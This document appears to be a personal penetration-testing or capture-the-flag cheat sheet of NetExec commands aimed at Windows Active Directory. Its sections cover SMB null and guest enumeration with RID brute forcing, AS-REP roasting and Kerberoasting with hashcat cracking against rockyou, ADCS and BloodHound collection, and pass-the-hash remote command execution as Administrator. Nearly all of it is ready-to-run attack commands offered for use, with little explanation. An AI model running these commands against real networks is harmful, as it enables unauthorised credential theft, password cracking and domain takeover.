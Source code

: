 # nxc
#plateform/linux #target/remote #cat/ATTACK

## nxc2 for generating HOST File
```
nxc2 smb <ip> --generate-hosts-file hosts_file && cat hosts_file >> /etc/hosts
```

## SMB all in one
```
nxc smb <ip> -u '<user>' -p '<passwd>' --shares --users --pass-pol --rid-brute 10000 --log $(pwd)/smb.out; cat smb.out | grep TypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 > users.txt; cat users.txt
```

## SMB null all in one
```
nxc smb <ip> -u '' -p '' --shares --users --pass-pol --rid-brute 10000 --log $(pwd)/smb.out; cat smb.out | grep TypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 > users.txt; cat users.txt
```

## SMB guest all in one
```
nxc smb <ip> -u 'a' -p '' --shares --users --pass-pol --rid-brute 10000 --log $(pwd)/smb.out; cat smb.out | grep TypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 > users.txt; cat users.txt
```

## LDAP anonymous all in one
```
nxc ldap <ip> -u '' -p ''
```

## LDAP all in one
```
nxc ldap <ip> -u '<user>' -p '<passwd>' --users --asreproast hashes.asreproast --kerberoasting hashes.kerberoast; hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force; hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt --force
```
## Checking ADCS
```
nxc ldap <ip> -u '<user>' -p '<passwd>' -M adcs
```


## Execute bloodhound
```
nxc ldap <ip> -u '<user>' -p '<passwd>' --bloodhound --collection All --dns-server <ip>
```

## Execute bloodhound w/o ObjectProps
```
nxc ldap <ip> -u '<user>' -p '<passwd>' --bloodhound --collection Group,LocalAdmin,RDP,DCOM,Container,PSRemote,Session,Acl,Trusts,LoggedOn --dns-server <ip>
```

## Cat root.txt with administrator hash
```
nxc smb <ip> -u Administrator -H '<hash>' -x 'type C:\Users\Administrator\Desktop\root.txt'
```
